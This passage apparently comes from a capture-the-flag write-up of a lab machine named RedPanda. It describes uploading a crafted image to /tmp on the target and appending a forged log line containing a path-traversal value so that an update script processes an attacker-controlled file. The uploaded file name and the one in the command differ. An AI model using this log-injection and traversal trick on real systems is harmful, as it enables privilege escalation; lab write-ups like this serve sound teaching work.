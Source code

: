 ![artist](Thu-11-2024_15-27.png)

I upload this to `/tmp/evil.jpg` on the victim.

#### RedPanda.log
I then add a log entry in `redpanda.log` 
```bash
echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> redpanda.log
```
and wait for the update script to run.
